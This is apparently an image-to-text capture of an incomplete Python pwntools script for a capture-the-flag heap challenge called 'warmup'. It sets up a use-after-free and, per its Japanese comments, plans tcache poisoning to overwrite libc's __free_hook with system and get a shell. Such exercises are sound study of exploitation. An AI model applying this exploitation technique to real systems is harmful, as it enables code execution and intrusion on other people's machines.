 ```python
from pwn import process, p64, u64, ELF


def _select(s, sel, c=b">>"):
    s.recvuntil(c)
    s.sendline(str(sel))


def create(s, data=b"/bin/sh\x00"):
    _select(s, 1)
    s.recvuntil(b"content>>")
    s.send(data)


def edit(s, idx, data=b"/bin/sh\x00"):
    _select(s, 3)
    s.recvuntil(b"index:")
    s.send(str(idx))
    s.recvuntil(b"content>>")
    s.send(data)


def delete(s, idx):
    _select(s, 2)
    s.recvuntil(b"index:")
    s.send(str(idx))


def uaf(s, idx, data=b"/bin/sh\x00", fake_idx=9):
    """
        fake_idxに該当するポインタがヌルポインタではないとtarget_ptrが上書きされて死ぬ
    """
    # set idx to target_ptr
    edit(s, idx, data)
    # free idx (but fake_idx is cleared)
    delete(s, fake_idx)


if __name__ == '__main__':
    """
        Arch:     amd64-64-little
        RELRO:    Full RELRO
        Stack:    Canary found
        NX:       NX enabled
        PIE:      PIE enabled
    """
    """
        - setbuf(stdout, 0)の前に出力が行われているのでHeap上に謎のバッファ先輩が存在するが特に意味は無い
        - delete, editの双方で共通のポインタ格納変数を用意しており、ロジックが異なるので頑張るとDouble FreeやらUAFが出来る(結構面倒)
        - edit, deleteで対象となったポインタはtarget_ptr中に留まり続ける
        - show無しでheap leakするのは無理っぽいのでUAFで末尾バイトを書き換えてtcache poisoningで好きなところを編集出来るようにする
    """
    
    libc = ELF("./libc-2.27.so")
    libc_addrs = {
        "free_hook": libc.symbols["__free_hook"],
        "system": libc.symbols["system"],
        "leak": 0x7fd8e6ded8b0 - 0x7fd8e6a00000
    }

    s = process("./warmup")
    s.recvuntil(b"===")
    print("[+] setup done")
```